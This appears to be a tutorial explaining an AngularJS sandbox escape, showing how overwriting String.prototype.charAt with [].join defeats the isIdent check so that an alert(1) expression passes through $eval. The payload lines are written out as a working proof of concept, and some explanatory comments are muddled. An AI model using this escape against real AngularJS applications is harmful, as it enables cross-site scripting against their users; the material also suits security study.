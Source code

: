 # AngularJS Sandbox

## What is a sandbox?

A sandbox is a safety box. AngularJS uses it to try to stop dangerous code (like alert(1), or worse).

For example:

```javascript
{
  {
    someExpression;
  }
}
```

AngularJS looks inside `someExpression` and blocks bad stuff, like:

- constructor

- alert

- Function

It uses a helper function like `isIdent(char)` to check each character and say:

    Is this a safe letter?

### The trick

The trick is to fool AngularJS into thinking a dangerous expression is just a bunch of normal letters.

Here's how:

**1. Modify how characters are checked**

AngularJS uses something like this:

```javascript
isIdent = function (ch) {
  return (
    ("a" <= ch && ch <= "z") ||
    ("A" <= ch && ch <= "Z") ||
    ch === "_" ||
    ch === "$"
  );
};
```

It expects to be checking one letter at a time, like `'a'` or `'Z'`.

But what if we broke that rule?

**2. Replace `.charAt()` with `.join()`**
This line does it:

```javascript
"a".constructor.prototype.charAt = [].join;
```

What does that mean?

- `'a'.constructor` → gives you String

- `String.prototype.charAt` → used by AngularJS to get one letter at a time

- `[].join` → joins an array into a full string

So now:

```javascript
"a".charAt(0); // Instead of 'a', returns 'a'
"a".charAt(1); // Instead of '', returns the whole string
```

After you overwrite `charAt` with `[].join`, this happens:

```
'a'.charAt(0) → returns `'a'`
'a'.charAt(1) → returns `'a'` // Still okay
But...
'x=alert(1)'.charAt(0) → becomes 'x=alert(1)'
```

So **instead of getting one character**, AngularJS gets the whole string.

**3. Fooling isIdent(ch)**

Now Angular runs:

```javascript
isIdent("x=alert(1)");
```

That shouldn't be allowed — because it includes:

- =

- (

- )

All bad in an expression. But because `charAt()` returns the whole string, Angular thinks:

    Oh, that’s just one "long letter", not bad.

So it lets it pass!

**4. Injecting code safely**

Now you can inject this:

```javascript
x = alert(1);
```

And AngularJS won’t block it. Why?

Because its safety check is **broken**.

## Why this works

- Angular tries to be safe by checking each letter of your code

- You trick it into thinking bad code is made of good letters

- You do that by changing how it reads each letter — .charAt()

- After that, you can run any `JavaScript` like:

```javascript
$eval("x=alert(1)");
```

